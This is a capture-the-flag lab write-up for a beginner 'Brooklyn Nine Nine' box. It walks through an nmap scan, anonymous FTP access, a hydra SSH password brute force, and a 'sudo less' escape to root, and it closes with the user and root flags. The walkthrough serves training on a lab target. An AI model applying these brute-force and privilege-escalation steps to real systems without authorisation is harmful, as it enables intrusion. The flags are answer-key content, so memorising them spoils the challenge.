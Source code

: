 # Task 1 Deploy and get hacking
----

>>This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box. If you find more dm me in discord at Fsociety2006.

## SCANNING

```bash
root@ip-10-10-205-252:~# nmap -sC -sV 10.10.60.236

Starting Nmap 7.60 ( https://nmap.org ) at 2022-01-09 13:04 GMT
Nmap scan report for ip-10-10-60-236.eu-west-1.compute.internal (10.10.60.236)
Host is up (0.010s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.205.252
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:10:78:4C:EE:2D (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.27 seconds
```

## FTP AS ANONYMOUS

>>Using ftp to connect.
>>We found a file note_to_jake.

```bash
root@ip-10-10-205-252:~# ftp 10.10.60.236
Connected to 10.10.60.236.
220 (vsFTPd 3.0.3)
Name (10.10.60.236:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.00 secs (53.6771 kB/s)

root@ip-10-10-205-252:~# cat note_to_jake.txt 
From Amy,
Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

## BRUTE FORCING THE PASSWORD

>>Using hydra to brute force the password.

```bash
root@ip-10-10-205-252:~# hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.60.236 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2022-01-09 13:15:04
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.60.236:22/
[22][ssh] host: 10.10.60.236   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 16 targets did not complete
Hydra (http://www.thc.org/thc-hydra) finished at 2022-01-09 13:15:22
```

## SSH INTO JAKE

>>Using ssh to connect to jake machine with the creds we found.  

```bash
root@ip-10-10-205-252:~# ssh jake@10.10.60.236 
jake@10.10.60.236's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:/$ find / -type f -name "*.txt" 2>/dev/null | grep "user.txt"
/home/holt/user.txt
jake@brookly_nine_nine:/$ cat /home/holt/user.txt 
ee11cbb19052e40b07aac0ca060c23ee
```

## PRIVILEGE ESCALATION

>>'less' is the point to get the shell as root.
>>Using the payload 'sudo less /etc/profile' to get the shell as root. 

```bash
jake@brookly_nine_nine:/$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
jake@brookly_nine_nine:/$ sudo less /etc/profile
# whoami
root
# cd /root       
# ls
root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```

----

# ANSWER THE FOLLOWING :
----

1.User flag
>>ee11cbb19052e40b07aac0ca060c23ee

2.Root flag
>>63a9f0ea7bb98050796b649e85481845

----